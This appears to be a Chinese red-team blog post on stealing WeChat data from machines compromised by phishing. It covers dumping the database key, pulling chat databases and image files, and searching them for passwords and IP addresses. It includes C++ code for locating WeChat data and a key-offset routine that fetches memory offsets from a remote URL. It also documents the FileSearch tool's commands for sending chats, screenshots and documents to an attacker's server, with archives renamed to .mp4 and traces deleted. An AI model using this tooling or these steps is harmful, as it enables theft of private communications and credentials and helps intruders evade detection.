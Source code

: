 ```yaml
---
title: 关于钓鱼上线后微信利用
date: 2022-11-19 11:51:24
description: 极客兔兔的小站，致力于分享一些技术教程和有趣的技术实践。

---
```


### 场景
钓鱼攻击(通过邮件/QQ/微信钓鱼控到的机器通常都是登录状态)
渗透到运维机器(有些运维机器会日常登录自己的微信)
实战中钓鱼时常在微信聊天记录或者微信聊天图片中找到目标内网系统账号、机器账号密码，尽可能的不触发大量扫描告警下在内网中精准打到跳板机,以下内容以及开源代码仅供学习使用。
### 微信聊天记录
[https://github.com/Ormicron/Sharp-dumpkey](https://github.com/Ormicron/Sharp-dumpkey)
1、获取微信数据库密钥，回传DBpass.bin
![1.png](https://c1y2m3.oss-cn-beijing.aliyuncs.com/aaa.png)
2、下载目标聊天数据库文件
默认保存目录在 c:\User\xxxx\Documents\Wechat Files\ wxid_xxxxx\Msg\Multi\
超出240MB会自动生成MSG1.db，以此类推。

```
wxid_xxxxxxxx\Msg\Multi\MSG0.db > 聊天记录
wxid_xxxxxxxx\Msg\Multi\MSG1.db > 聊天记录
wxid_xxxxxxxx\Msg\Multi\MSG2.db > 聊天记录
wxid_xxxxxxxx\Msg\MicroMsg.db > Contact字段 > 好友列表
```
![2.png](https://c1y2m3.oss-cn-beijing.aliyuncs.com/rtet.png)
3.将上面三个文件回传到同目录，配合ChatViewToo（
[GitHub - Ormicron/chatViewTool: 基于Java实现的图形化微信聊天记录解密查看器](https://github.com/Ormicron/chatViewTool)
）打开解密即可查看，在搜索处"administrator"/ ‘“root” "密码" “ip等”
![3.png](https://c1y2m3.oss-cn-beijing.aliyuncs.com/baba.png)

## 微信聊天图片
参考：[https://www.52pojie.cn/forum.php?mod=viewthread&tid=1529348](https://www.52pojie.cn/forum.php?mod=viewthread&tid=1529348)
微信保存的图片解密不调用微信程序，不依赖微信ID和UIN，对每个dat文件单独计算解密密钥
**低版本图片存储路径路径：**
C:\Users\xxxx\Documents\WeChat Files\xxxxx\FileStorage\Image
**从 3.7.0.26 版开始，微信图片的保存路径按群、按人分别保存图片及文件，对应路径：**
C:\Users\xxxx\Documents\WeChat Files\xxxxxx\FileStorage\MsgAttach
将对应目录的dat文件拉回后用WxDatViewer打开查看
![微信截图_20221118190801.png](https://c1y2m3.oss-cn-beijing.aliyuncs.com/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20221118190801.png)

### 3.自动化实现过程
1、直接读取注册表的键值，wxid关键字匹配然后拼接绝对路径
```
void getPath(char *dbpath)
{
	char cmd_command[256] = { 0 };
	char regname[] = "Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\Shell Folders";
	HKEY hKey;
	DWORD dwType = REG_BINARY;
	REGSAM mode = KEY_READ;
	DWORD length = 256;
	int ret = RegOpenKey(HKEY_CURRENT_USER, regname, &hKey);

	ret = RegQueryValueEx(hKey, "Personal", 0, &dwType, (LPBYTE)dbpath, &length);
	strcat(dbpath, "\\WeChat Files");
	//cout << dbpath << endl;

	if (ret == 0) {
		RegCloseKey(hKey);
	}
	else {
		printf("failed to open regedit.%d\n", ret);
	}
}
```
```
void getFileNames(string path, vector<string>& files)
{
	intptr_t hFile = 0;
	//文件信息
	struct _finddata_t fileinfo;
	string p;
	string::size_type idx;

	if ((hFile = _findfirst(p.assign(path).append("\\*").c_str(), &fileinfo)) != -1)
	{
		do
		{
			//如果是目录,匹配文件夹
			if ((fileinfo.attrib & _A_SUBDIR))
			{
				if (strstr(fileinfo.name, "wxid") != NULL)
					files.push_back(p.assign(path).append("\\").append(fileinfo.name));
			}

		} while (_findnext(hFile, &fileinfo) == 0);
		_findclose(hFile);
	}
}
```
### 注意事项：
这里需要注意的是如果用户修改过微信id本地存储的文件夹非默认wxid开头的路径或者用户自定义安装目录，这个时候需要手动指定绝对路径参数去上传！！
![微信截图_20221014133740.png](https://c1y2m3.oss-cn-beijing.aliyuncs.com/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20221014133740.png)
2、服务端用的socket协议，需要启动个Server socket监听
![微信截图_20221118190541.png](https://c1y2m3.oss-cn-beijing.aliyuncs.com/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20221118190541.png)
3、这里参考了Ormicron哥远程拉取基址获取密钥的[Sharp-dumpkey](https://github.com/Ormicron/Sharp-dumpkey)项目，用c++重新写了个版本
远程拉取的URL在GetBaseAddr 方法中，这里可以根据实际情况进行修改，目前支持最新微信版本

```
BYTE* GetBaseAddr(BYTE* wdBaseAddr, LPCTSTR version)
{
	std::string resultStr = webhttp((L"https://jihulab.com/bluesky1/padding/-/raw/main/README.md"));
	if (resultStr == "")
	{
		std::cout << "info download error" << std::endl;
		return NULL;
	}

	std::string versionStr = Unicode2Ansi(CA2W(version));
	Replace(resultStr, " ", "");
	Replace(resultStr, "\t", "");

	int offsetAddr = 0;
	char targetVersion[256] = { 0 };
	sprintf_s(targetVersion, "\"%s\"", versionStr.c_str());
	const char* ptr = strstr(resultStr.c_str(), targetVersion);
	if (!ptr)
	{
		std::cout << "[-] This Version Not Support1." << std::endl;
		return NULL;
	}
	ptr = strstr(ptr, "\"addr\":\"");
	if (!ptr)
	{
		std::cout << "[-] This Version Not Support2." << std::endl;
		return NULL;
	}

	ptr += strlen("\"addr\":\"");

	sscanf_s(ptr, "%x", &offsetAddr);

	//std::cout << std::hex << offsetAddr << std::endl;

	return wdBaseAddr + offsetAddr;
}
```
## 实现效果
![微信截图_20221118200409.png](https://c1y2m3.oss-cn-beijing.aliyuncs.com/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20221118200409.png)
## 项目
最后把以上功能集成到了自己实现的文件回传功能中
项目地址：[https://github.com/c1y2m3/FileSearch](https://github.com/c1y2m3/FileSearch)
### Server
```
Server.exe port # 默认8888端口
```
### Command
```
[+] FileSearch.exe dumpkey # 获取微信密钥
[+] FileSearch.exe send 127.0.0.1 8888 # 从默认路径回传微信数据库
[+] FileSearch.exe send 127.0.0.1 8888 vxpath # 指定微信数据库路径
[+] FileSearch.exe photo 127.0.0.1 8888 # 桌面截屏回传
[+] FileSearch.exe search d:\ .docx # 查找指定类型文件
[+] FileSearch.exe upload path 127.0.0.1 8888 # 上传文件
[+] FileSearch.exe uploads path 127.0.0.1 8888 # 上传文件夹
[+] FileSearch.exe all 127.0.0.1 8888  # 全盘获取指定类型文件
[+] FileSearch.exe user 127.0.0.1 8888 # c:\users目录下查找类型文件
```
### v1.3
1、all参数排除c盘符查找指定类型文件，避免大量缓存文件造成卡顿，添加user参数在c:\users目录下查找
可自行修改需要上传的文件类型（747行），默认为：
```
	const char* filetype[] = { ".doc",".xls", ".pdf" ,".docx",".xlsx",".txt",".bat",".ppt",".pptx" };
```
2、运行成功后会自动删除生成出来的文件夹以及压缩包，压缩包文件随机修改成了mp4后缀
3、优化了查找文件匹配方式，支持模糊匹配或精确匹配
4、新增uploads参数遍历指定文件夹压缩上传功能
5、新增photo参数桌面截屏回传功能
### 功能展示：
![微信截图_20221118190319.png](https://c1y2m3.oss-cn-beijing.aliyuncs.com/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20221118190319.png)
![微信截图_20221118191427.png](https://c1y2m3.oss-cn-beijing.aliyuncs.com/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20221118191427.png)
![微信截图_20221118195507.png](https://c1y2m3.oss-cn-beijing.aliyuncs.com/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20221118195507.png)

## 已知问题：
测试在10M带宽的服务器上传输大文件（G级）可能会损坏，感觉这跟双方网络波动有一定关系，后续会改成自动分卷压缩来上传，目前暂用的解决办法：
例如本地自带Rar进行切割，回传后

```
C:\Program Files\WinRAR\Rar.exe a -ep1 -m0 -v2mC:\Users\admin\Downloads\1.rar C:\Users\admin\Downloads\xxx.jar
```
注释：-v2m 即分卷的大小为2m 
2、使用WinRAR内置修复功能或者使用[DiskInternals ZIP](https://www.diskinternals.com/zip-repair/)进行修复损坏文件
如果发现缺陷请提交 issue，非常感谢！
后续还会更新~
#### 本人失业多年，已不参与大小HW的攻击方了，若溯源到id与本人无关



